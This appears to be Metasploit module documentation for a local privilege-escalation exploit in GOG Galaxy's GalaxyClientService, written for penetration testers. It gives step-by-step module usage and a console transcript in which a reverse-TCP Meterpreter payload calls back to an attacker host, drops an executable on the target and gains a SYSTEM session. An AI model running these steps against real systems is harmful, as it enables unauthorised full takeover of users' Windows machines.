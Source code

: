 ## Vulnerable Application

GOG Galaxy is a video game management client. One of its Windows services, *GalaxyClientService*, runs with *SYSTEM* privileges.
In versions 2.0.12 and earlier, and 1.2.64 and earlier, it is possible to communicate with the service and instruct it to
execute arbitrary commands as *SYSTEM*.

A vulnerable [version](https://www.gog.com/galaxy) need only be installed on the target machine in order to be exploitable.

## Verification Steps

  1. Start *msfconsole*.
  2. Acquire a Meterpreter session.
  3. Do: ```use exploit/windows/local/gog_galaxyclientservice_privesc```
  4. Do: ```set SESSION <session_no>```
  5. Do: ```exploit```
  6. Verify that you get a Meterpreter session.

## Options
### WORKING_DIR

The initial working directory of the command.

## Scenarios
### GOG Galaxy Client `v1.2.66.64` on Windows 10

```
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Sending stage (201283 bytes) to 192.168.37.131
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.131:50855) at 2020-06-15 08:35:15 -0500

meterpreter > getuid
Server username: DESKTOP-AQT4EG1\space
meterpreter > sysinfo
Computer        : DESKTOP-AQT4EG1
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 15
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/gog_galaxyclientservice_privesc
msf5 exploit(windows/local/gog_galaxyclientservice_privesc) > set session 1
session => 1
msf5 exploit(windows/local/gog_galaxyclientservice_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/local/gog_galaxyclientservice_privesc) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf5 exploit(windows/local/gog_galaxyclientservice_privesc) > check
[*] The target appears to be vulnerable. Vulnerable version found: 1.2.66.64
msf5 exploit(windows/local/gog_galaxyclientservice_privesc) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Starting GalaxyClientService...
[*] Service started successfully.
[*] Connecting to service...
[*] Writing C:\Users\space\AppData\Local\Temp\mqslPXvWyu.exe to target
[*] Connected to service.  Sending payload...
[*] Sending stage (201283 bytes) to 192.168.37.131
[*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.131:50857) at 2020-06-15 08:35:59 -0500
[+] Command executed successfully!

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-AQT4EG1
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 15
Meterpreter     : x64/windows
```
